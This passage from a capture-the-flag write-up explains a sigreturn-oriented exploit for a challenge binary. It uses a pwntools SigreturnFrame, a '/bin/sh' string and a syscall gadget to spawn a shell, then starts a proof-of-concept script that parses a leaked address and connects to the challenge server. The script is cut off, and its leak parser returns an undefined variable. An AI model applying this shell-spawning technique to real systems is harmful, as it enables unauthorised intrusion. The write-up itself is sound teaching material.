 This payload allows to set up the `rax` register to `15` which is the syscal number of Sigrop.
Pwntools gives us a nice easy way to setup the `sigcontext` structure with `SigreturnFrame()`.

And now, all we have to do after pushing this structure and the string `"/bin/sh"` to return to the instruction `syscall`:
```
gadget 0:
   0x0000000000000364 : syscall
```

And get a shell.

![PoC](https://github.com/MohandAcherir/Writeups/blob/main/404CTF/Screenshot%20from%202025-05-28%2016-43-38.png)


### Proof of Concept

```
from pwn import *
import re
from time import sleep

context.arch = 'amd64'
context.os = 'linux'


def extract(data):
    parts = data.split(b'22 derniers bytes : ')
    if len(parts) >= 2:
        after_leak = parts[1]
        leaked = after_leak.split(b'\n')[1][:6]  # first full line after leak
        print(f"Leaked bytes: {leaked}")
        print(f"As address: 0x{int.from_bytes(leaked, 'little'):012x}")
        return int.from_bytes(leaked, 'little')
    else:
        print("Leak pattern not found.")
    return addrs

for x in [48]:
    p = remote('challenges.404ctf.fr', 32468)
    #p = process('./chall')
```
